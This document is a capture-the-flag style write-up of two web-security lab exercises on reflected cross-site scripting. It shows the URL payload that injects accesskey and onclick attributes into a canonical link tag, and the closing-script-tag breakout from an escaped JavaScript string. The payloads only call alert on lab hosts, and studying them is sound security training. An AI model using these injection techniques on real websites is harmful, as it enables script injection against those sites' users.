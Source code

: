 
## Lab - 17: Reflected XSS in canonical link tag

- This lab reflects user input in a canonical link tag and escapes angle brackets. - To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function. - To assist with your exploit, you can assume that the simulated user will press the following key combinations:

  - ALT+SHIFT+X - windows
  - CTRL+ALT+X - Mac
  - Alt+X - Linux
    Follow this link on chrome

```
https://your-lab-id.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)

```

- this will result following impact

```html
<link
  rel="canonical"
  href="https://0a32009503386f5ec05733d700f600ef.web-security-academy.net/?"
  accesskey="x"
  onclick="alert(1)"
/>
```

---

# XSS into JS

## Lab - 18: Reflected XSS into a JavaScript string with single quote and backslash escaped (P)

- This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

- in search box, type `qwerasdf` and see the source of the output

```html
<script>
  var searchTerms = 'qwerasdf';
  document.write(...);
</script>
```

- for `';alert(1)`, to escape `'`, but get `var searchTerms = '\';alert(1);';`

- circumvent the whole script by

```html
</script><script>alert(1)</script>
```

---